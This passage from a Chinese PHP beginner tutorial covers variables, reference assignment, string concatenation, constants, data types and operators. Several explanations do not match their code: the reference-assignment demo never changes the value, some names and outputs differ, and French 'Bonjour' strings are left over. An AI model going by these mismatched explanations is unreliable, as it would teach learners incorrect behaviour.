**代码清晰度**：通过使用有意义的变量和常量名称，代码变得更具可读性，也更容易让其他开发者理解。

**易于维护**：通过以一致的方式定义变量和常量，将来修改和维护代码会更加容易。

**避免错误**：对不得修改的值使用常量，可以防止意外修改，从而降低代码出错的风险。

简而言之，理解变量和常量的区别，以及恰当使用它们的重要性，对于开发高效可靠的 PHP 应用程序至关重要。

#### 声明和使用变量

变量在 PHP 编程中扮演着关键角色，它使得数据能够在脚本执行过程中被存储和操作。在本节中，我们将探讨声明变量的语法、如何为它们赋值，以及如何在 PHP 脚本中使用它们。

##### PHP 中声明变量的语法

在 PHP 中，变量通过美元符号（`$`）后跟变量名来声明。重要的是要注意，变量名必须以字母或下划线开头，随后可以包含字母、数字和下划线。

在 PHP 中，通常使用以下语法声明变量：

```php
$VariableName = VariableValue;
```

*   **`$VariableName`** 是您要声明的变量的名称。它必须以 `$` 符号开头，后跟一个符合特定语法规则的名称（以字母或下划线开头，不包含空格或除下划线外的特殊字符等）。

*   **`=`** 是 PHP 中的赋值运算符。它用于将值赋给变量。

*   **`VariableValue`** 是您要赋给变量的值。该值可以是各种数据类型，例如字符串、整数、浮点数、布尔值、数组等。

以下是 PHP 中变量声明的一些示例：

```php
$name = "John";
$age = 30;
$account_balance = 1000.50;
```

在本例中，我们声明了一个变量 `$name` 并将其赋值为 `"John"`，这是一个字符串。现在可以在脚本中使用该变量来存储和操作名称 "John"。

在代码行 `$age = 30;` 中，我们声明了一个名为 `$age` 的变量并将其赋值为 `30`。这意味着变量 `$age` 包含整数 `30`。

在代码行 `$account_balance = 1000.50;` 中，声明了第三个名为 `$account_balance` 的变量并将其赋值为 `1000.50`。这意味着变量 `$account_balance` 包含浮点数 `1000.50`。

##### 声明新变量时必须遵守的规则

*   PHP 中的每个变量都必须以 `$` 符号开头，后跟变量名。
*   变量名必须以字母或下划线（`_`）开头，不能以数字开头。
*   变量名只能包含字母、数字和下划线（`_`），不能包含特殊字符。
*   变量名不能包含空格。
*   重要的是要注意，PHP 中的变量名区分大小写。这意味着大小写的使用会创建不同的变量。例如，变量 `$NAME`、`$Name` 和 `$name` 被视为独立的变量。

这些规则确保了 PHP 中变量声明的正确性和一致性，有助于提高源代码的可读性和可管理性。下表展示了一些合法和非法变量名的示例。

| 合法变量名 | 非法变量名 |
| --- | --- |
| `$myvariable`<br>`$_myvariable`<br>`$myvariable1`<br>`$MASTER2`<br>`$_32monlastname` | `$3myvariable`<br>`$*variable`<br>`$myvariable+` |

##### 值赋值与引用赋值

在 PHP 编程中，给变量赋值时，理解值赋值和引用赋值的概念非常重要。这两种赋值方式决定了数据在 PHP 脚本中如何被操作和共享。

**值赋值**：

当变量通过值赋值时，会创建源变量值的副本并将其赋给目标变量。这意味着这两个变量在不同的内存位置存储着独立的值。对目标变量所做的任何更改都不会影响源变量，反之亦然。这允许在变量之间独立地操作数据。

示例：

```php
<?php
$var1 = "Hello";
$var2 = $var1; // 值赋值
echo $var2; // 显示 "Hello"
echo "<br>";
$var1 = "Hello everybody!";
echo $var1; // 显示 "Hello everybody!"
echo "<br>";
echo $var2; // 显示 "Hello"
echo "<br>";
?>
```

在本例中，`$var2` 通过值赋值给 `$var1`，这意味着 `$var2` 包含 `$var1` 值的**副本**。因此，当修改 `$var1` 的值时，不会影响 `$var2` 的值。

结果：



**引用赋值**：

相反，当使用 `&` 符号通过引用赋值变量时，两个变量共享对包含该值的内存位置的同一引用。这意味着对其中一个变量所做的任何修改也会影响另一个变量，因为它们指向内存中的同一个值。这允许在变量之间直接共享和操作数据，这在某些用例中非常有用。

示例：

```php
<?php
$var1 = "Hello";
$var2 = &$var1; // 引用赋值
echo $var2; // 显示 "Hello"
echo "<br>";
$var1 = "Hello";
echo $var2; // 显示 "Hello"
?>
```

在本例中，`$var2` 通过引用赋值给 `$var1`，这意味着两个变量指向内存中的同一个值。因此，当修改 `$var1` 的值时，`$var2` 的值也会被修改，因为它们共享同一个引用。

结果：



##### 在 PHP 脚本中使用变量

只需引用变量名即可在 PHP 脚本中使用变量。它们可用于显示数据、执行计算，或任何其他需要操作数据的操作。以下是变量在 PHP 脚本中使用的几个示例：

示例 1：

```php
<?php
$name = "Bob";
echo $name;
?>
```

**`$name = "Bob";`**：此行声明了一个变量 `$name` 并将其赋值为 `"Bob"`。变量 `$name` 现在包含字符串 `"Bob"`。

**`echo $name;`**：此行显示变量 `$name` 的内容。`echo` 函数用于在 PHP 中显示文本或变量。在本例中，它显示变量 `$name` 的值，即 `"Bob"`。

结果：



示例 2：

```php
<?php
$firstname = "Alice";
$age = 25;
echo "Hello, my name is $firstname and I am $age years old.";
?>
```

在本例中，变量 `$firstname` 和 `$age` 用于存储一个人的信息，然后在一个句子中显示。

结果：



示例 3：

```php
<?php
$number1 = 10;
$number2 = 5;
$sum = $number1 + $number2;
echo "The sum of $number1 and $number2 is equal to $sum.";
?>
```

在本例中，变量 `$number1` 和 `$number2` 用于存储数字，然后用于计算以获得总和，总和存储在变量 `$sum` 中，最后显示出来。

结果：



#### PHP 中的显示与拼接

在 PHP 中，可以通过多种方式显示文本和变量，例如使用 `echo` 函数，或将字符串放在双引号（`" "`）或单引号（`' '`）中。

PHP 中的拼接是将多个字符串连接起来形成单个字符串的过程。当您想要组合变量、常量和文本字符串以形成完整消息或更复杂的表达式时，这非常有用。

双引号和单引号用法示例：

```php
<?php
$firstname = "Alice";
```


### PHP 字符串处理与常量

#### 字符串显示与变量解析

```php
echo "Hello, $firstname!"; // Displays "Hello, Alice!"

echo "<br>";

echo 'Hello, $firstname!'; // Display "Hello, $firstname!"
```

**结果：**



在该示例中，第一条 `echo` 语句使用双引号显示变量 `$firstname` 的值，而第二条 `echo` 语句使用单引号，显示字面文本 `$firstname` 而不解析变量。

#### 连接运算符（点号 `.`）的使用

在 PHP 中，连接运算符由点号（`.`）表示，用于连接字符串。

##### 示例 1

```php
<?php
$firstname = "Alice";
$name = "Smith";
$message = "Hello, " . $firstname . " " . $name . " !";
echo $message;
?>
```

在该示例中，变量 `$firstname` 和 `$lastname` 分别包含值 "Alice" 和 "Dupont"。连接运算符（`.`）用于将这些变量与文本字符串结合，形成完整消息 "Hello, Alice Smith!"。

双引号（`" "`），由一个空格分隔并插在两个变量 `$firstname` 和 `$lastname` 之间，在这两个变量的值之间创建了一个空格（在 Alice 和 Dupont 之间）。

**结果：**



##### 示例 2

```php
<?php
$age = 30;
$message = "She's turning " .$age. " next week, but she doesn't look a day over 25 ";
echo $message;
?>
```

在该示例中，变量 `$age` 包含数值 30。连接运算符（`.`）用于将该变量与文本字符串结合，形成完整消息 "I'm 30 years old"。

**结果：**



#### 包含撇号的收缩字符串

让我们修改前一个示例，使用撇号代替双引号：

```php
<?php
$age = 30;
$message = 'She's turning " .$age. " next week, but she doesn't look a day over 25 ';
echo $message;
?>
```

运行此代码时，会在定义变量 `$message` 的那一行报错。



错误发生的原因是字符串“**She’s**”和“**doesn’t**”中使用了撇号。在 PHP 中，当字符串用单引号（`''`）括起时，字符串内的撇号必须用反斜杠（`\`）转义，以避免与字符串结束符混淆。

要解决此错误，可以用反斜杠（`\`）转义撇号：

```php
<?php
$age = 30;
$message = 'She\'s turning " .$age. " next week, but she doesn\'t look a day over 25 ';
echo $message;
?>
```

#### 使用 `.=` 运算符

在 PHP 中，可以使用 `.=` 运算符将字符串连接到现有变量。

```php
<?php
$message = "Hello ";
$message .= "everyone!";
echo $message;
?>
```

在该示例中，字符串 "Everybody!" 与已包含字符串 "Hello" 的变量 `$message` 连接，形成完整消息 "Hello everybody!"。

换句话说，代码行 `$message .= "everyone!";` 使用连接运算符（`.=`）将字符串 "everyone!" 追加到变量 `$message` 的末尾。这意味着字符串 'everybody!' 被追加到 `$message` 变量中现有字符串的末尾。

注意字符串 "Bonjour" 末尾包含一个空格，允许在两个文本字符串 "Bonjour" 和 "Bonjour tout le monde!" 之间插入空格。



在 PHP 中，连接是结合字符串和变量以创建动态消息和复杂表达式的有效方法。

通过使用这些不同的显示和连接方法，您可以在 PHP 脚本中高效地操作文本和变量。

### 在 PHP 中使用常量

PHP 常量是标识符（名称），代表脚本执行过程中不可变的值。一旦定义，常量在脚本执行期间不能被修改或重新赋值。

#### 在 PHP 中定义常量

在 PHP 中，有两种定义常量的方法：使用 `define()` 函数或 `const` 指令。定义常量的语法如下：



##### 示例

```php
<?php
define('VAT', 0.20);
const AVERAGE_GRADE = 10;
?>
```

第一个常量使用 `define()` 函数定义，名为 `VAT`。其值设为 0.20，代表 20% 的 `VAT` 税率。该常量在全局声明，定义后可在整个脚本中使用。

第二个常量使用 `const` 指令定义，名为 `AVERAGE_GRADE`。其值设为 10，代表平均分。该常量也在全局声明，定义后可在整个脚本中使用。

#### 使用常量的优势

与变量相比，常量具有以下优势：

*   **不可变**：常量在脚本执行期间保持其值，保证值恒定且可预测。
*   **易读性**：常量通常具有描述性名称，使代码更易理解。
*   **可复用性**：常量可在代码的多处使用，无需重复值。
*   **安全性**：常量在脚本执行期间不能被意外修改，确保代码一致性和可靠性。

#### 命名和使用常量的最佳实践

定义和使用常量时，建议遵循以下最佳实践：

*   对常量使用描述性的大写名称（如 `VAT`、`MAX_SIZE`）。
*   避免在常量名称中使用特殊字符或空格。
*   在脚本开头定义常量，以提高可读性。

#### PHP 中的预定义常量示例

PHP 中有许多预定义常量可在脚本中使用：

*   `PHP_VERSION`：此预定义常量包含服务器上安装的当前 PHP 版本。
*   `PHP_OS`：此预定义常量包含运行 PHP 服务器的操作系统名称。
*   `PHP_INT_MAX`：此预定义常量包含当前 PHP 平台上整数的最大值。
*   `__FILE__`：此预定义魔术常量包含使用它的文件的绝对路径。
*   `__LINE__`：此预定义魔术常量包含文件中使用它的当前行号。

```php
<?php
echo PHP_VERSION ."<br>"; // Display current PHP version
echo PHP_OS ."<br>"; // Display operating system name
echo PHP_INT_MAX ."<br>"; // Display the maximum value of an integer on a given platform
echo __FILE__ ."<br>"; // Display the absolute path of the file
echo __LINE__ ."<br>"; // Display current line number
?>
```

执行此代码将得到类似以下输出（特定于我们机器的数据）：



*   `8.1.17`：是我们计算机上安装的 PHP 版本
*   `Darwin`：是我们机器的 Mac 操作系统
*   `9223372036854775807`：是 64 位平台上的最大数字
*   `/Application/XAMPP/xamppfiles/htdocs/ebookphp/index.php`：是当前正在运行的文件的绝对路径
*   `21`：是对应 `echo __LINE__` 指令的行号

#### 比较变量和常量

变量和常量是 PHP 编程的基本元素，但它们在行为和用途上有所不同：

变量可以在脚本执行期间被修改和重新赋值，而常量保持其不可变的值。

变量使用 `$` 符号声明，而常量使用 `define()` 或 `const` 声明。

常量通常用于脚本中保持不变的值，如税率或数学常量，而变量用于脚本执行期间可能更改的值。

### PHP 中的数据类型


### PHP 数据类型和运算符

#### PHP 中的基本数据类型

PHP 中的基本数据类型是表示简单值的基础数据类型。以下是 PHP 中的主要基本数据类型：

*   **整数 (`int`)**：整数用于表示整数值，例如 `-1`、`0`、`1`、`2` 等。它们可以是正数或负数。
*   **浮点数 (`float`)**：浮点数用于表示小数，例如 `3.14`、`-0.5`、`1.618` 等。
*   **字符串 (`string`)**：这些表示用单引号 (`' '`) 或双引号 (`" "`) 括起来的字符序列。例如：`$name = 'John';`。
*   **布尔值 (`bool`)**：这些表示真值，要么是 `true` 要么是 `false`。例如：`$is_true = true;`。
*   **`null` 类型**：用于表示值的缺失。这不同于空字符串 `''`、整数 `0` 或布尔值 `false`。换句话说，包含 `null` 的变量不包含任何有用的数据或信息。它表示该变量为空或尚未用有效值定义。

要检索给定变量的数据类型，可以使用 PHP 原生定义的 `gettype()` 函数。

**示例：**

```php
<?php

// 声明并初始化具有不同值的变量
$age = 30; // 一个整数
$price = 19.99; // 一个浮点数
$name = 'John'; // 一个字符串
$message = "John is 20!"; // 另一个字符串
$is_true = true; // 一个布尔值 (true)
$is_false = false; // 一个布尔值 (false)
$salary = null; // 变量未赋值

// 显示每个变量的数据类型
echo gettype($age) . "<br>"; // 显示 "integer"
echo gettype($price) . "<br>"; // 显示 "double"
echo gettype($name) . "<br>"; // 显示 "string"
echo gettype($message) . "<br>"; // 显示 "string"
echo gettype($is_true) . "<br>"; // 显示 "boolean"
echo gettype($is_false) . "<br>"; // 显示 "boolean"
echo gettype($salary) . "<br>"; // 显示 "NULL"
?>
```

此示例中的代码使用 `gettype()` 函数获取每个变量的数据类型，然后使用 `echo` 显示每个数据类型，并带上 `<br>` 标签以便在 HTML 输出中换行。

最后，代码输出将类似于这样：



> **注意：** 还有其他变量类型，例如数组和对象，它们被视为复杂类型。我们将在本书后面的章节中更详细地介绍这些变量类型。

还有一点很重要，与其他强类型编程语言不同，在这些语言中我们必须显式声明每个变量的类型，而在 PHP 中，变量的类型会根据赋给它的值自动确定。例如，如果我们声明 `$age = 17;`，这意味着变量 `$age` 的类型是整数。

#### PHP 运算符

PHP 运算符是用于对变量和值执行操作的特殊符号。它们在数据操作和控制 PHP 脚本的执行流程中起着至关重要的作用。运算符可用于执行数学计算、比较值、给变量赋值、连接字符串等。

在 PHP 中，运算符根据其功能分为不同类型：算术运算符、赋值运算符、比较运算符、逻辑运算符和增量/减量运算符。

在下文中，我们将探讨每种类型的运算符，解释其用法、语法规则，并提供实际示例来说明其工作原理。理解运算符对于编写高效且功能完善的 PHP 脚本至关重要。

##### 算术运算符

算术运算符用于对数值执行数学运算。下表展示了 PHP 中主要的算术运算符。

| 运算符 | 名称 | 示例 |
| :--- | :--- | :--- |
| `+` | 加法 | `$a + $b` |
| `-` | 减法 | `$a - $b` |
| `*` | 乘法 | `$a * $b` |
| `/` | 除法 | `$a / $b` |
| `%` | 取模 | `$a % $b` |
| `**` | 幂运算 | `$a ** $b` |

**加法 (`+`)**：加法运算符 (`+`) 用于将两个或多个数值相加。例如，如果你有两个变量 `$a` 和 `$b`，`$a + $b` 将给出这两个变量的和。

**减法 (`-`)**：减法运算符 (`-`) 用于从一个数值中减去另一个数值。例如，如果你有两个变量 `$a` 和 `$b`，`$a - $b` 将给出这两个变量的差。

**乘法 (`*`)**：乘法运算符 (`*`) 用于将两个数值相乘。例如，如果你有两个变量 `$a` 和 `$b`，`$a * $b` 将给出这两个变量的积。

**除法 (`/`)**：除法运算符 (`/`) 用于将一个数值除以另一个数值。例如，如果你有两个变量 `$a` 和 `$b`，`$a / $b` 将给出 `$a` 除以 `$b` 的商。

**取模 (`%`)**：取模 (`%`) 运算符用于获取一个数值除以另一个数值的余数。例如，如果你有两个变量 `$a` 和 `$b`，`$a % $b` 将给出 `$a` 除以 `$b` 的余数。

**幂运算 (`**`)**：`**` 运算符是 PHP 中的幂运算符。它用于将一个值提升到给定的幂。例如，如果你有一个值 `$a` 并想将其提升到 `$b` 次幂，可以像这样使用 `**` 运算符：`$a ** $b`。这等同于计算 `$a` 的 `$b` 次幂。例如，如果 `$a` 是 `2` 而 `$b` 是 `3`，那么 `$a ** $b` 将给出 `8`，因为 `2` 的 `3` 次幂等于 `8`。该运算符对于在 PHP 脚本中执行涉及幂的计算非常有用。

这些算术运算符用于数学表达式中，以便在 PHP 脚本中执行数值计算。它们对于在程序中执行各种数学运算至关重要。

**示例：**

```php
<?php

// 变量声明
$a = 10;
$b = 3;

// 加法
$addition = $a + $b;
echo "Addition : $addition <br>";

// 减法
$subtraction = $a - $b;
echo "Subtraction : $subtraction <br>";

// 乘法
$multiplication = $a * $b;
echo "Multiplication : $multiplication <br>";

// 除法
$division = $a / $b;
echo "Division : $division <br>";

// 取模
$modulo = $a % $b;
echo "Modulo : $modulo <br>";

// 幂运算
$exponentiation = $a ** $b;
echo "Exponentiation : $exponentiation <br>";

?>
```

**结果：**



在本示例中，变量 `$a` 和 `$b` 分别设置为 `10` 和 `3`。然后使用这些值执行算术运算：

*   `$a` 和 `$b` 相加得 `13` (`10 + 3`)。
*   `$a` 减去 `$b` 得 `7` (`10 - 3`)。
*   `$a` 和 `$b` 相乘得 `30` (`10 * 3`)。
*   `$a` 除以 `$b` 得约 `3.33333` (`10 / 3`)。
*   `$a` 对 `$b` 取模得 `1`，即 `10` 除以 `3` 的欧几里得除法余数。
*   最后，`$a` 的 `$b` 次幂得 `1000` (`10 ** 3`)。

##### 赋值运算符

赋值运算符用于给变量赋值。下表展示了 PHP 中主要的赋值运算符：

**简单赋值运算符 (`=`)**：此运算符用于给变量赋值。例如，`$a = 10;` 将值 `10` 赋给变量 `$a`。

**组合赋值运算符**：这些运算符将算术运算与赋值运算结合在一起。


例如，`+=` 运算符将右侧的值加到左侧的变量上，并将结果赋值给左侧的变量。因此 `$a += 5;` 等同于 `$a = $a + 5;`

**其他组合赋值运算符**：其他组合赋值运算符包括 `-=`、`*=`、`/=`、`%=`、`**=`，它们的工作方式类似，分别用于减法、乘法、除法和取余。

| 运算符 | 用法 | 含义 |
| --- | --- | --- |
| `=` | `$a = $b` | 将 `$b` 的值赋给变量 `$a` |
| `+=` | `$a += $b` | `$a = $a + $b` |
| `-=` | `$a -= $b` | `$a = $a - $b` |
| `*=` | `$a *= $b` | `$a = $a * $b` |
| `/=` | `$a /= $b` | `$a = $a / $b` |
| `%=` | `$a %= $b` | `$a = $a % $b` |
| `**=` | `$a **= $b` | `$a = $a ** $b` |
| `.=` | `$a .= $b` | `$a = $a . $b` |

示例：

```php
<?php

 // 简单赋值运算符

 $a = 10; // $a 现在等于 10

 echo "\$a after simple assignment operator: $a <br>";

 // 组合赋值运算符

 $b = 5;

 $b += 3; // 等同于 $b = $b + 3，$b 的新值为 8

 echo "\$b after applying the += operator: $b <br>";

 $c = 8;

 $c -= 2; // 等同于 $c = $c - 2，$c 的新值为 6

 echo "\$c after operator -= : $c <br>";

 $d = 6;

 $d *= 4; // 等同于 $d = $d * 4，$d 的新值为 24

 echo "\$d after applying the *= operator: $d <br>";

 $e = 12;

 $e /= 3; // 等同于 $e = $e / 3，$e 的新值为 4

 echo "\$e after applying the /= operator: $e <br>";

 $f = 10;

 $f %= 3; // 等同于 $f = $f % 3，$f 的新值为 1

 echo "\$f after applying operator %= : $f <br>";

?>
```

执行此代码将显示应用相应运算符后变量 `$a`、`$b`、`$c`、`$d`、`$e` 和 `$f` 的新值：

